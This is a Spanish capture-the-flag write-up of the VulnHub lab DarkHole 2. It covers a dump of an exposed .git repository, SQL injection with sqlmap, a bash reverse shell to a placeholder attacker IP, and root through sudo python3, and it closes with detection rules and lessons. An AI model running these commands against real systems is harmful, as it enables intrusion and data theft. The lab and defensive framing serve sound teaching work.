# DarkHole 2

| Campo | Valor |
|---|---|
| **Plataforma** | VulnHub |
| **Sistema** | Ubuntu 20.04 LTS · Apache 2.4.41 · MySQL 8 |
| **Dificultad** | media |
| **Fecha** | 2026-10-14 |
| **Tiempo** | ~18 minutos de grabación |

- **Técnicas:** T1213 · T1552.001 · T1552.003 · T1078 · T1190 · T1505.003 · T1059.004 · T1548.003 · T1059.006
- **Flags:** usuario `DarkHole{'This_is_the_life_man_better_than_a_cruise'}` · root `DarkHole{'Legend'}`

> Las credenciales concretas del reto se omiten a propósito. La máquina es pública y está retirada;
> quien quiera reproducirla las obtiene con el procedimiento descrito.

## Resumen

El sitio publica su propio repositorio `.git`, y el historial conserva el commit que añadió un
formulario con credenciales por defecto. Con esas credenciales se entra al panel, cuya consulta
de login es inyectable: sqlmap vuelca la base y entrega una credencial SSH. Dentro, la enumeración
automática descubre un servicio web interno en el puerto 9999 que ejecuta comandos, y con él se
consigue una sesión como otro usuario. `sudo -l` permite Python como root: escalada y flag.

Ningún exploit. Todo el recorrido se apoya en lo que el servidor publicaba.

## Reconocimiento

```bash
nmap -sC -sV -p- <IP-objetivo>
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole V2
| http-git:
|   <IP-objetivo>:80/.git/
|     Git repository found!
|_    Last commit message: i changed login.php file for more secure
```

Dos servicios y un aviso: **el script de nmap detecta un repositorio git publicado**. Ese es el
hilo del que tira todo lo demás.



## Enumeración: el repositorio expuesto

`/.git/` se lista entero desde el navegador, así que el código fuente se puede reconstruir:

```bash
git-dumper http://<IP-objetivo>/.git/ backup
cd backup && git log -p
```

El listado del directorio se sirve tal cual desde el navegador:



Y el historial muestra el commit que añadió el formulario de login **con el usuario y la contraseña
por defecto escritos en el código**. No hay que romper nada: la llave está publicada.



## Acceso al panel

Con las credenciales que aparecen en la captura anterior se entra en el panel. El perfil se carga
con el parámetro **`id`** de la URL, y es ese parámetro el que resulta inyectable:



> Probé primero a inyectar en el campo *Full name* del formulario y no devolvía nada: el camino que
> funcionó fue el `id` de la URL. La petición se captura con **Burp Suite** y se lanza con sqlmap,
> que confirma el punto (`Parameter: id (GET)`).

- Técnica: T1190 · Exploit Public-Facing Application.

## El volcado

La petición se captura con Burp y se lanza con sqlmap contra la URL del panel:

```bash
sudo sqlmap -u "http://<IP-objetivo>/dashboard.php?id=1" -r cookies --batch --dbs
```



sqlmap enumera la base `darkhole_2` y deja dos tablas interesantes: `users` (cuentas del sitio) y
`ssh` (credenciales de acceso al sistema).





## Acceso inicial

```bash
ssh jehad@<IP-objetivo>
```

La contraseña sale de la tabla `ssh` del volcado. Sesión en la máquina como usuario sin privilegios.

## Post-explotación

`linPEAS` resume el sistema y se lee como un mapa del camino: recomienda probar `su` con los nombres
de usuario y revisar `sudo`. Y en las tareas programadas aparece el hallazgo que cambia el ataque:
**el usuario `losy` sirve un directorio web en el puerto 9999**, solo en local.



Ese servicio ejecuta el comando que se le pasa:

```bash
curl "http://localhost:9999/cmd?id=id"
# Parameter GET:['cmd']uid=1002(losy) gid=1002(losy)
```



El servicio ejecuta lo que se le pasa y lo hace **como otro usuario**. Para la reverse shell el
payload viaja como parámetro `cmd`, así que tiene que ir **codificado en URL**: sin codificar, el
`&` y el `>` rompen la petición. Se codifica con el *Encoder* de Burp, o se deja que lo haga `curl`
con `--data-urlencode`, que es lo que se ve en la grabación:

```bash
# equivalente: curl codifica el valor del parámetro
curl -G http://localhost:9999/ --data-urlencode \
  "cmd=bash -i >& /dev/tcp/<IP-atacante>/<puerto> 0>&1"
```

> En la grabación el comando completo no cabe en la terminal: se ve el arranque
> (`curl -G http://localhost:9999/ --data-urlencode "cmd= …`) y justo después la conexión que
> llega al escucha. El comando íntegro es el del bloque de arriba.

Con el payload enviado, la reverse shell se queda escuchando:

```bash
# en el atacante
nc -lvnp <puerto>
# en la víctima, payload generado contra la IP y el puerto del atacante
bash -i >& /dev/tcp/<IP-atacante>/<puerto> 0>&1
```



Dentro, el usuario es `losy` y su flag está en el directorio personal:



## Escalada de privilegios

La shell de la reverse no es una terminal completa: no hay TTY, así que `sudo` no funciona desde
ahí. Para escalar hay que abrir una sesión SSH real con `losy`, y el **historial de comandos** del
sistema dejaba a la vista la ruta: `sudo python3 -c 'import os; os.system("/bin/sh")'` y `sudo su`.



```bash
ssh losy@<IP-objetivo>
```



Con una terminal real, `sudo -l` confirma el permiso y Python hace el resto:

```bash
sudo -l
# User losy may run the following commands on darkhole:
#     (root) /usr/bin/python3
sudo python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
```



También vale abriendo el intérprete y ejecutándolo dentro:

```bash
sudo python3
>>> import os; os.system('bash')
```




## Detección

| Paso | Técnica | Qué deja | Alerta que lo cazaría |
|---|---|---|---|
| Repositorio expuesto | T1213 | Descarga masiva de `/.git/` desde fuera | Peticiones a `/.git/` + número de ficheros por IP |
| Credenciales en el código | T1552.001 | — | Revisión de repositorios en el pipeline de CI |
| Login con credenciales por defecto | T1078 | Acceso correcto tras varios fallos | Autenticación exitosa desde IP nueva |
| Inyección SQL | T1190 | `UNION SELECT`, comillas, errores SQL | WAF + reglas sobre parámetros del formulario |
| Volcado | T1005 | Consultas masivas a tablas | Volumen anómalo de lecturas por usuario |
| Servicio interno 9999 | T1505.003 | Peticiones a un puerto que no es el web | Tráfico a puertos internos no publicados |
| Reverse shell | T1059.004 | Conexión saliente desde el servidor | Egress a IP externa en puerto alto |
| `sudo` sobre Python | T1548.003 | Comando `sudo python3` | `sudo` de intérpretes en servidores web |

Moraleja: cada paso deja huella. Ninguna de estas ocho alertas requiere comprar nada, solo tenerlas
puestas y probadas.

## Lecciones

1. Un `.git` publicado entrega el código **y todo su historial**: es el fallo más rentable de este lab.
2. Las credenciales por defecto en el código sobreviven en el historial aunque se borren después.
3. Una consulta concatenada convierte un login en una puerta trasera a toda la base de datos.
4. Un servicio interno que ejecuta comandos es ejecución remota aunque solo escuche en localhost.
5. `sudo` sobre un intérprete es root con otro nombre.

## Referencias

- DarkHole 2 — VulnHub
- [git-dumper](https://github.com/arthaud/git-dumper)
- [linPEAS / PEASS-ng](https://github.com/peass-ng/PEASS-ng)
